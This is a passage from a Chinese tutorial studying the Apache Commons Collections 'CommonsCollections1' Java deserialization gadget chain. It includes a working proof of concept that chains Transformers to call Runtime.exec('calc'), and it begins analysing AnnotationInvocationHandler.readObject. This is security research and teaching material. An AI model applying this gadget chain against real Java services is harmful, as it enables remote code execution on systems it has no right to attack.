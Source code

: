 相当于一种链式的传递，前一个`Transformer`处理的得到的`output`会当作`input`给下一个`Transformer`处理。



理清了这些，很容易想到一个把这些串起来的命令执行：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map outerMap = TransformedMap.decorate(new HashMap(),null,chainedTransformer);
        outerMap.put("feng","feng");
    }
}

```



![image-20210813225101712]([Java反序列化]CommonsCollections1简化链学习.assets/image-20210813225101712.png)





# TransformedMap链分析

了解完前置的知识后，就可以考虑真正的反序列化链了。在上面的命令执行中，最终我们是手动的执行了`put()`方法来实现了漏洞的触发。在反序列化中，我们需要找到一个可以用的类的`readObject()`方法，通过这个方法最终可以触发漏洞。

这个类是`sun.reflect.annotation.AnnotationInvocationHandle`：

```java
private final Map<String, Object> memberValues;



    private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        var1.defaultReadObject();
        AnnotationType var2 = null;

        try {
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map var3 = var2.memberTypes();
        Iterator var4 = this.memberValues.entrySet().iterator();

        while(var4.hasNext()) {
            Entry var5 = (Entry)var4.next();
            String var6 = (String)var5.getKey();
            Class var7 = (Class)var3.get(var6);
            if (var7 != null) {
```